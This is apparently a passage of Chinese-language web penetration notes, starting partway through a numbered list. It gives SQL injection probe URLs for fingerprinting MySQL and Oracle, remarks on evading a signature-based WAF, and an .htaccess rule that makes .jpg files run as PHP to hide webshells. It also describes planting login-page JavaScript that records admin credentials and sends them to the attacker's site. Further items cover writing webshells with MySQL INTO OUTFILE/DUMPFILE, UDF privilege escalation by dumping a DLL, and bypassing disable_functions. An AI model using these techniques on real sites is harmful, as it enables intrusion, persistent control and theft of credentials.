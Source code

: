 ```sql
2、mysql数据库
http://127.0.0.1/test.php?id=1 and '1' + '1' = '11'
http://127.0.0.1/test.php?id=1 and CONCAT('1','1')='11'

3、oracle数据库
http://127.0.0.1/test.php?id=1 and '1'||'1'='11'
http://127.0.0.1/test.php?id=1 and CONCAT('1','1')='11
```
### 安全狗查杀方式
> 不是追踪变量，是根据特征码，所以很好绕过了，只要思路宽，绕狗绕到欢，但这应该不会是一成不变的。


### .htaccess文件作用
> 修改配置文件，解析其他后缀，用于隐藏webshell
> <FilesMatch "xxx.jpg"> SetHandler application/x-httpd-php
.jpg文件会被解析成.php文件。




### 

### 有shell的情况下，使用xss长久控制
> 后台登录处加一段记录登录账号密码的js，并且判断是否登录成功，如果登录成功，就把账号密码记录到一个生僻的路径的文件中或者直接发到自己的网站文件中。(此方法适合有价值并且需要深入控制权限的网络)。
> 在登录后才可以访问的文件中插入XSS脚本。
> 或者登录成功提示加载flash脚本，远程下载文件，控制终端


### mysql写webshell的几种方式
利用条件
> root权限
> GPC关闭（能使用单引号），magic_quotes_gpc=On
> 有绝对路径（读文件可以不用，写文件必须）
> 没有配置–secure-file-priv
> 成功条件：有读写的权限，有create、insert、select的权限

方法
> union select 后写入
> lines terminated by 写入
> lines starting by 写入
> fields terminated by 写入
> COLUMNS terminated by 写入


### 注入写shell的问题

1. 写shell用什么函数？ 
   - `select '<?php phpinfo()> into outfile 'D:/shelltest.php'`
   - `dumpfile`
   - `file_put_contents`

 

2. outfile不能用了怎么办？ `select unhex('udf.dll hex code') into dumpfile 'c:/mysql/mysql server 5.1/lib/plugin/xxoo.dll';`可以UDF提权 [https://www.cnblogs.com/milantgh/p/5444398.html](https://www.cnblogs.com/milantgh/p/5444398.html)
3. dumpfile和outfile有什么不一样？outfile适合导库，在行末尾会写入新行并转义，因此不能写入二进制可执行文件。
4. 写shell的条件？ 
   - 用户权限
   - 目录读写权限
   - 防止命令执行：`disable_functions`，禁止了`disable_functions=phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source`，但是可以用dll扩展执行命令或者ImageMagick漏洞 [https://www.waitalone.cn/imagemagic-bypass-disable_function.html](https://www.waitalone.cn/imagemagic-bypass-disable_function.html)
   - open_basedir: 将用户可操作的文件限制在某目录下
